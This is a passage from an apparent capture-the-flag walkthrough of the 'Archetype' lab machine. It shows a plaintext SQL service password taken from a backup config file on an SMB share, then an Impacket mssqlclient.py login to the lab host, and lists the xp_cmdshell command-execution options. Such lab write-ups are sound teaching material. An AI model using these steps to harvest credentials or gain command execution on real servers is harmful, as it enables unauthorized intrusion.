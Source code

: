 Note that another command for `ls` is `dir` in samba client.

We run `get prod.dtsConfig` to get the file in the backup directory.  It looks like this:
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

It looks like there is a password and username here!  We recall from Passage that we have Impacket's `mssqlclient.py` script, and we use it here:
```bash
$ git clone https://github.com/SecureAuthCorp/impacket
Cloning into 'impacket'...
remote: Enumerating objects: 41, done.
remote: Counting objects: 100% (41/41), done.
remote: Compressing objects: 100% (32/32), done.
remote: Total 18922 (delta 25), reused 20 (delta 9), pack-reused 18881
Receiving objects: 100% (18922/18922), 6.27 MiB | 3.79 MiB/s, done.
Resolving deltas: 100% (14401/14401), done.
                                                                                                                                                                        
$ python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

Now we are logged in as user `ARCHETYPE\sql_svc`!

Let's have a look at the help commands:
```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

